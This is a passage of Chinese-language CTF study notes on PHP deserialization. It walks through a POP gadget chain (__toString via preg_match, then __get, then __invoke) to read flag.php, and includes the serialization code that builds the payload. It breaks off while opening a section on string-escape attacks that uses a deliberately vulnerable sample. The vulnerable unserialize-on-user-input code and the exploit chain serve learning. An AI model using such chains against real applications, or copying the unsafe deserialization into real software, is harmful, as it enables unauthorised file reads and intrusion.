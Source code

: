 ```php
}
class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }
    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
if(isset($_GET['x'])){
    unserialize($_GET['x']);
}else{
    $show = new Show();
    $show->_show();
} 
```

起点是`__wakeup`而不是`__construct`，反序列化自动调用`__wakeup`，原程序里面没有serialize()

要想读到flag.php，代码里有两个关键的参数：`highlight_file`和`file_get_contents`，仔细看如果对x进行传参，就不会执行`_show`方法，就不会调用`highlight_file`方法，所以这是迷惑的

该如何调用到read对象的__invoke()方法？——test对象中的p变量可控，并且**会以方法返回**

那么如何调用到test对象的`__get()`方法？——show对象的`__toString()`访问了一个source属性，这个属性test对象里面不存在，所以能调用到test对象的`__get()`方法，那么show对象的`str['str']`就应该是`$test`

那么如何调用到show对象的toString()方法？——preg_match的第二个参数本该是一个字符串 如果是对象的话 就会触发其__toString()

```php
$read = new Read();
$read->var = 'flag.php';

$test = new Test();
$test->p = $read;

$show = new Show();
$show->str['str'] = $test;

$show->source = $show;

echo serialize($show);
```

## 字符逃逸（过滤后变少）

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
//flag in flag.php
class Read{
    public $mod1='change me!';
    public $mod2='change me!';
    public $filename='index.php';
}
function replace($str){
    return preg_replace('/aaaa|bbb/i','', $str);
}
$test = new Read();
if(isset($_GET['a'])&&isset($_GET['b'])){
    $test->mod1 = $_GET['a'];
    $test->mod2 = $_GET['b'];
}
```